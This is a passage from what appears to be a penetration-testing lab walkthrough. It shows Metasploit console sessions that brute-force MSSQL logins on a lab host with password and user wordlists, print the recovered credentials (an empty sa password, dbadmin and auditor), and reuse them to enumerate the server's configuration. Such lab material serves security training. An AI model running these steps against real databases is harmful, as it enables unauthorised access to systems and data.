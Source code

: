 ```
   USERPASS_FILE                         no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS         false            no        Try the username as the password for all users
   USER_FILE                             no        File containing usernames, one per line
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)
   VERBOSE              true             yes       Whether to print output for all attempts

msf6 auxiliary(scanner/mssql/mssql_login) > setg RHOSTS 10.0.18.92
RHOSTS => 10.0.18.92
msf6 auxiliary(scanner/mssql/mssql_login) > set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt
PASS_FILE => /root/Desktop/wordlist/100-common-passwords.txt
msf6 auxiliary(scanner/mssql/mssql_login) > set USER_FILE /root/Desktop/wordlist/common_users.txt
USER_FILE => /root/Desktop/wordlist/common_users.txt
msf6 auxiliary(scanner/mssql/mssql_login) > set VERBOSE false
VERBOSE => false
msf6 auxiliary(scanner/mssql/mssql_login) > run

[*] 10.0.18.92:1433       - 10.0.18.92:1433 - MSSQL - Starting authentication scanner.
[+] 10.0.18.92:1433       - 10.0.18.92:1433 - Login Successful: WORKSTATION\sa:
[+] 10.0.18.92:1433       - 10.0.18.92:1433 - Login Successful: WORKSTATION\dbadmin:anamaria
[+] 10.0.18.92:1433       - 10.0.18.92:1433 - Login Successful: WORKSTATION\auditor:nikita
[*] 10.0.18.92:1433       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

Enumerate MSSQL configuration

[Microsoft SQL Server Configuration Enumerator](https://www.rapid7.com/db/modules/auxiliary/admin/mssql/mssql_enum/)

Microsoft SQL Server 配置枚举器

该模块将对 Microsoft SQL Server 数据库执行一系列配置审核和安全检查。要使该模块正常工作，必须提供有效的管理用户凭据。

```
msf6 auxiliary(scanner/mssql/mssql_login) > use auxiliary/admin/mssql/mssql_enum
msf6 auxiliary(admin/mssql/mssql_enum) > show options

Module options (auxiliary/admin/mssql/mssql_enum):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   PASSWORD                              no        The password for the specified username
   RHOSTS               10.0.18.92       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                1433             yes       The target port (TCP)
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)

msf6 auxiliary(admin/mssql/mssql_enum) > set USERNAME dbadmin
USERNAME => dbadmin
msf6 auxiliary(admin/mssql/mssql_enum) > set PASSWORD anamaria
PASSWORD => anamaria
msf6 auxiliary(admin/mssql/mssql_enum) > run
[*] Running module against 10.0.18.92

[*] 10.0.18.92:1433 - Running MS SQL Server Enumeration...
[*] 10.0.18.92:1433 - Version:
[*]	Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
[*]		Sep 24 2019 13:48:23 
```